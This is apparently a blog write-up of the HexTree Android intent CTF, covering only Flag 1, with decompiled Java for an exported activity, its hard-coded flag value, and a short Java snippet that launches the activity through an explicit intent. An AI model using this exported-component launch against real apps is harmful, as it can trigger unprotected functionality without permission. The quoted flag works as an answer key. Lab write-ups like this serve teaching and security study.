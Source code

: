 +++
date = '2025-07-30T00:55:36+03:00'
draft = false
title = 'HEX Tree intent Challenges'
tags = ['Ctf', 'Andorid', 'intent', 'implicit', 'deep link', 'pending', 'hextree']
+++

This a writeup to all intent realated challenges 

### Flag 1
#### code analysis
```java
public class Flag1Activity extends AppCompactActivity {
    public Flag1Activity() {
        this.name = "Flag 1 - Basic exported activity";
        this.flag = "zABitOReWutKdkrMKx2NPVXklOmLz1SB85u2kJjUe1ojI9LMWkbEKkjANz15WHmb";
    }

    protected void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        this.f = new LogHelper(this);  
        this.f.addTag("basic-main-activity-avd2");
        success(this);
    }
```

When this activity called it's constructor will set the activity's name to "Flag 1 - Basic exported activity" and initializes a flag variable.This LogHelper is used to add a tag named "basic-main-activity-avd2" and method success is called 

#### Solution

so just by lunching this activity the method will be executed and that can be called with Explicit intent . from code we find:
1. package= **"io.hextree.attacksurface"**
2. class name : **io.hextree.attacksurface.activities.Flag1Activity**

Java:
```java
Intent EvilIntent = new Intent();
EvilIntent.setComponent(new ComponentName(
 "io.hextree.attacksurface",
 "io.hextree.attacksurface.activities.Flag1Activity"
)); 
startActivity(EvilIntent);  
```

![alt](flag1.png)
